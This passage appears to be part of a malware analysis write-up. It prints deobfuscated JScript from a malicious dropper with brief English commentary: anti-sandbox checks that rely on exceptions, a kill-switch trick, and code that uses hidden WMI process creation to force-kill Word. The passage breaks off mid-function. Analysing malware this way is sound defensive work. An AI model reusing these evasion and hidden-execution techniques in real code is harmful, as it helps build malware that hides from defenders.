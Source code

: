 ```js
    if (ygahzfm555 && ygahzfm81 && ygahzfm3282 && ygahzfm4066 && ygahzfm0731 && ygahzfm64 && ygahzfm354 && ygahzfm6906 && ygahzfm619 && ygahzfm28 && ygahzfm822){main();}
}
catch (e){var ygahzfm03 = 0;}

```
###### The second operation anti-sandbox rest the same (sandbox don't properly handle exceptions.) 

```js
function main() 
{
    try 
    {
        ygahzfm2351.ygahzfm5433; // Kill switch
        return true;
    }  
    catch(e) {exec_pay();}
}
```

###### We can see on the first bloc of the function, the preparation settings for the rest of the operation and send a kill signal to an eventual running word instance which avoids to perform the operations on the next block.

```js
function exec_pay()
{
    var ActXobj1;
    var ActXobj2;
    var path_appdata = "";
    var arg = "";
    try 
    {
        ActXobj1 = get_actxobj("WScript.Shell");
        ActXobj2 = ActXobj1.environment("PROCESS");
        path_appdata = ActXobj2(path_appdata + "\\Microsoft\\");
    } catch (e) {path_appdata = "";}
    var excepvalue;
    try 
    {
        var wmiObj1 = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2");
        var StartInfos1 = wmiObj1.Get("Win32_ProcessStartup").SpawnInstance_();
        StartInfos1.ShowWindow = 0;
        var Id;
        var process1 = wmiObj1.Get("Win32_Process");
        var Inst1 = process1.Methods_("Create").inParameters.SpawnInstance_();
        Inst1.Properties_.Item("CommandLine").Value = "taskkill /F /IM winword.exe"
        Inst1.Properties_.Item("ProcessStartupInformation").Value = StartInfos1;
        var process2 = wmiObj1.ExecMethod("Win32_Process","Create");
        if (process2.ReturnValue !== 0) {ygahzfm8153;}
        Id = process2.ProcessId;
        var Notif = wmiObj1.ExecNotificationQuery("Select * From __InstanceDeletionEvent Within 1 Where TargetInstance ISA 'Win32_Process'");
        var event;
        while (true) 
        {
            event = Notif.nextEvent();
            if (event.TargetInstance.ProcessID == Id){break;}
        }
    } 
    catch (e) 
    {
```